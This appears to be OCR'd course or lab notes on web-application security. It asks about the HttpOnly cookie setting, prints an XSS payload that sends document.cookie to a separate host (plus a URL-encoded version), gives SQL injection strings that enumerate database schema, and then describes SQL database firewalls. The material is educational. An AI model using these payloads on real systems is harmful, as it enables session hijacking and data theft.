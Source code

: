 What are better solution $0 or 1$?
\begin{verbatim}
session.cookie_httponly = 0
\end{verbatim}
XSS
\begin{verbatim}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{verbatim}
veel XSSi
\begin{verbatim}
%3Cscript%3Evar+i%3D%27%3Cimg+src%3D%22http%3A%2F%2F192.168.56.101%2F%27%2Bdocument.cookie%2B%27%22+%2F%3E%27%3B+document.write%28i%29%3B%3C%2Fscript%3E
\end{verbatim}
SQLi
\begin{verbatim}
#blind
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
 
 
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
 
 
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --

\end{verbatim}



\section{Installation of SQL Application Firewall}
SQL database firewall filters and rejects injected sql statements from untrusted web application. SQL firewall is application type firewall and usually understands database engine and SQL internals to determine possible malicious commands. For example detecting  SQL tautology (statement that gives always true) demands understanding SQL syntax and semantics. Detecting SQL tautology helps prevent commonly used authorization bypassing techniques.
Each database engine behaves differently and SQL firewalls are database engine aware.


Examples of commonly used database firewalls:
\begin{itemize}
\item DB Green SQL database firewall. Supports MySQL, Microsoft SQL Server, PostgreSQL
\item GreenSQL Open Source database firewall. Supports MySQL, PostgreSQL.
\item ORACLE database firewall. Supports Oracle, MySQL, Microsoft SQL Server, IBM DB2 and Sybase databases
\item SecureSphere Database Firewall. Supports Oracle, Microsoft SQL Server, Sybase, DB2, Informix, MySQL, Progress, Teradata, Netezza backends.
\end{itemize}

